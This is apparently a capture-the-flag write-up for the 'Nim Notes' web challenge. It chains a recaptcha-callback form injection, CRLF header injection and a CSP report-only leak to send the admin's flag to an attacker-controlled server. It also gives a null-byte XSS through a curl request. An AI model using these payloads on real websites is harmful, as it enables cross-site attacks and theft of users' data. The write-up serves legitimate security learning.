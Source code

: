# Nim Notes

* Category: Web
* Score: 500/500
* Solves: 1/428

## Description

I made this note taking web app in Nim as a part of learning it. If you have some cool notes about Nim please share it with me!

## Overview

You have a simple note taking website, which allows you to use markdown to create some notes. The webiste backend is written in Nim, with a small framework called [jester](https://github.com/dom96/jester). You can share you notes with admin (bot), and your target is to steal the flag in admin's notes.

## Solution

The bot only visits `http://web/?user=xxx`, so you might want to direct the bot to your own website first. Your note content are first parsed by marked then filtered by DOMPurify, so you most probably couldn't have a direct XSS (unless you have a DOMPurify 0day lol).

The trick is to notice that recaptcha v2 are used on the website too, and [its documentation](https://developers.google.com/recaptcha/docs/display) listed some ways to interact with it through HTML markup. Obviously, the most interesting things are `data-callback` and `data-error-callback`, they should be specified to be the name of a global function.

Is there anything interesting things can be used as a callback? Of course, there is! In `/js/app.js`, there's a simple function `logout`:

```javascript
function logout() {
	document.getElementById('logout-form').submit()
}
```

It simply submit the `<form>` with id `logout-form`, but the form in `templates/index.html` are located at the very end of HTML, which is after the notes container. If you inject a `<form>` with `logout-form` at container section, it will submit the injected one rather than the original logout one. So you can just provide your website's url to `action` of that form, and it will direct the bot to your site when callback are called.

```html
<form action="YOUR_SERVER" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>peko</button>
</form>
```

> The source of this idea comes from [this tweet](https://twitter.com/oreha_senpai/status/1431947638878838786), BTW

> Update: @splitline said this technique always exist at [a challenge](https://gist.github.com/bluepichu/3ea50dfe412d13d9a7cd01e909856e4c#file-bfnote) from TWCTF 2020

After directing the bot to your website, there are one intended solution and one unintended solution (much easier and less interesting) as far as I know.

The intended solution is to use the fact that `setCookie` is vulnerable to CRLF Injection. Since `sign` function simply concat your message and hash together, your payload is directly passed into `setCookie` almost unmodified if you could success at login/register.

You might think it is easy to XSS after CRLF Injection, but in fact, it is not. The injection point are at `Set-Cookie` header, which is after the CSP header. And it is easy to found that you can't really disable CSP even if you could inject headers in modern Chromium. So you still need to find a way to bypass CSP:

```csp
default-src 'self'; script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
```

The CSP prevents you from using inline `<script>` tag to XSS, but you can trying to load script with current origin. If this CSRF request are `GET`, you can try to construct a Javascript/HTML polyglot and force the browser to cache the response. Then make a `<script>` tag's `src` to point to itself might work. But it is a `POST` in this challenge, so this won't work.

Another option is trying to use the fact HTTP keep-alive are all in a single TCP connection, since Chromium only opens 6 parallel connections at the same time by default, it is possible to make them reuse same connection for HTML and the script. While this is possible in theory, but Chromium will simply disconnect immediately when it sees more content then it is expecting, so it is important to make it align to packet boundary. This is so complicated that I couldn't make it work in this challenge.

> If you want to know more about this, see **PlaidCTF 2021 - Carmen Sandiego** and **Circle City Con CTF 2021 - Sticky Notes**

So it is impossible to XSS this way? I don't know, but you don't really need XSS to exfiltrate the flag. The trick is to abuse the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header, which allows you to specify another set of CSP rules, but it only reports the violation to a specified url without blocking it. And the reported infomation is encoded as a JSON, one of the field `script-sample` contains `The first 40 characters of the inline script, event handler, or style that caused the violation.` by MDN.

What if you can make it send the flag to your server using `script-sample`? See the `createNote` function in `/js/app.js`:

```javascript
function createNote(note) {
	const el = document.importNode(document.getElementById('note-tmpl').content, true)
	el.querySelector('.note-title').textContent = note.title
	el.querySelector('.note-author').textContent = note.author
	el.querySelector('.note-content').innerHTML = DOMPurify.sanitize(marked.parse(note.content))
	return el
}
```

It is expected that flag will be in admin's `note.content`, if `.note-content` element is a `<script>` tag then it will put the content (flag) to `script-sample` and send it to your server!

So it is clear that we can use CRLF Injection to set your own `Content-Security-Policy-Report-Only`, and the body will be a HTML with designed `#note-tmpl` template. You also need to load `/js/app.js`, `/js/marked.min.js` and `/js/purify.min.js` to make it work too. Once the bot trying to load that HTML, the violation will be triggered when it wants to set `innerHTML` to be the flag.

The exploit is [exp.py](exp.py), you need to set the `public_host` variable to be a publicly reachable url of that flask server. After starting it, create a note with following content and share it with admin (bot):

```html
<form action="http://IP_OF_THIS_SERVER/csrf" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>asd</button>
</form>
```

Then the flask server should prints the flag.

## Unintended Solution

You need to direct the bot to your website first too. But the CSRF part is different here.

The trick is that when your username contains `\0` (null byte), it will cause syntax error in Nim's sqlite library. This happens because it [didn't uses sqlite's prepared statement](https://github.com/nim-lang/Nim/blob/d7370ce26962b3b82e6b9be6562f6e88ba7ff86c/lib/impure/db_sqlite.nim#L214).

And the error message are output **directly** to response by Jester, with no CSP headers.

```bash
> curl 'http://34.81.54.62:8765/login' --data $'username=<script>alert(1)</script>%00&password=peko' -v
*   Trying 34.81.54.62:8765...
* Connected to 34.81.54.62 (34.81.54.62) port 8765 (#0)
> POST /login HTTP/1.1
> Host: 34.81.54.62:8765
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 502 Bad Gateway
< Server: nginx
< Date: Mon, 28 Feb 2022 03:08:23 GMT
< Content-Type: text/html;charset=utf-8
< Content-Length: 343
< Connection: keep-alive
<
<html xmlns="http://www.w3.org/1999/xhtml"><head><title>Jester route exception</title></head><body><h1>An error has occured in one of your routes.</h1><p><b>Detail: </b>db_sqlite.nim(198)       dbError<br/>
asyncfutures.nim(389)    read<br/>
asyncfutures.nim(389)    read<br/>
* Connection #0 to host 34.81.54.62 left intact
unrecognized token: "'<script>alert(1)</script>"</p></body></html>
```

So you have an easy XSS now, lol.
